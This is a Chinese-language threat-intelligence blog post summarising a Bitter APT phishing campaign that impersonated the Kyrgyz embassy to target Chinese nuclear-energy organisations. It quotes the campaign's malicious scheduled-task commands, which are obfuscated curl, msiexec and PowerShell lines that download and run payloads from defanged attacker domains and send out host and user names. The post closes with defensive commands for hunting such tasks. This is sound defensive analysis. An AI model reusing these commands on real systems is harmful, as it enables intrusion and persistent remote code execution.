 ```yaml
---
date: 2023-03-24
author: [SecCMD]
title: 针对中国核能行业的网络钓鱼活动
description: >
  这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。
categories: 网络攻防
tags:
  - APT
---
```


> 亮点：这篇报告中整个攻击流程非常清晰，具体的攻击手法都给出了示例，在钓鱼邮件的细节处理、还有一些防御规避措施都是值得注意的。最后的持久化都落地在计划任务，所以在防守时，重点关注计划任务中可疑的项目，文章后面我给出了具体排查的命令。

## 一、背景

被认为来自南亚的黑客组织 Bitter APT 最近正以中国核能机构为攻击目标。安全公司 Intezer 报告，在最近的行动中，Bitter APT 伪装成吉尔吉斯斯坦驻北京大使馆向中国核能公司和该领域的学者发送钓鱼邮件，邀请他们参加吉尔吉斯斯坦大使馆等主办的一个核能会议。邮件签名者是真实存在的，是吉尔吉斯斯坦外交部的一名官员。但邮件附件是恶意的，会执行一系列行动释放恶意负荷。

## 二、攻击技术细节

1. 恶意微软 Excel 文件，每 15 分钟运行一次计划任务，使用 cURL 下载恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min curl --output %AppData%\dwmcor.exe -O ""https://qwavemediaservice[.]net/hkcu/qt.php/?dt=%computername%-QT-2&ct=QT""" /f
```

2. 恶意微软 Excel 文件，每 20 分钟运行另一个计划任务，执行上一步下载的恶意程序。

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 20 /TN \Windows\DWM\DWMCORELIB /TR "%AppData%\dwmcor.exe" /f
```

3. CHM 文件，创建一个计划任务。（通过分解字符串以进行模糊处理）

``` Powershell
"C:\Windows\System32\schtasks.exe" /create /sc minute /mo 15 /tn AdobeUpdater /tr "%coMSPec% /c s^t^a^rt /^m^i^n m^s^i^e^xe^c ^/^i htt^p:/^/mirz^adih^atti^[.]com^/cs^s/t^ry.php?h=%computername%*%username% /^q^n ^/^norestart" /ft
```

4. CHM 文件，创建的另一个计划任务

``` Powershell
,cmd.exe, /c start /min powershell -e xxxx
schtasks /create /tn WinSecurity /sc minute /mo 15 /tr "powershell.exe -WindowStyle Hidden -command curl -o %LOCALAPPDATA%\pic.jpg https://coauthcn[.]com/hbz.php?id=%computername%;timeout 9;more %LOCALAPPDATA%\pic.jpg|powershell;timeout 9;del %LOCALAPPDATA%\pic.jpg" /f
```

## 三、防守要点

上述所有操作，最终都是创建了计划任务进行持久化，所以通过查看计划任务的执行的命令操作，可以看到可疑的执行命令。具体排查命令如下：

1. 使用 PowerShell 分析定位可疑的计划任务
``` Powershell
Get-ScheduledTask | Format-Table -AutoSize
(Get-ScheduledTask -TaskName DWMCORELIB).Actions | Format-List *
(Get-ScheduledTask).Actions | Format-List Execute
```
2. 使用 CMD 分析定位可疑的计划任务
``` Powershell
schtasks.exe /Query /V /FO LIST  （输出格式：TABLE、LIST、CSV。）
taskschd.msc （图形界面）
```

## 四、附加知识点

** %comspec% 是什么？**
打开一个命令行窗口。%comspec% 是一个指向当前命令行外壳的环境变量。通过使用 %comspec%，您不必担心命令行外壳是 cmd.exe 还是 command.exe；%comspec% 会自动选择正确的一个。

** PowerShell Base64 编码 **
``` Powershell
// Base64 编码
$commond ="write-host 'testmsg'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($commond)
$encodeCommand = [Convert]::ToBase64String($bytes)
write-host 'StringToBase64: ' $encodeCommand
// Base64 解码
$DecodeText=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodeCommand))
write-host 'Base64ToString: ' $DecodeText
```

感兴趣的朋友加我好友，一起学习交流！~

报告原文：https://intezer.com/blog/research/phishing-campaign-targets-nuclear-energy-industry/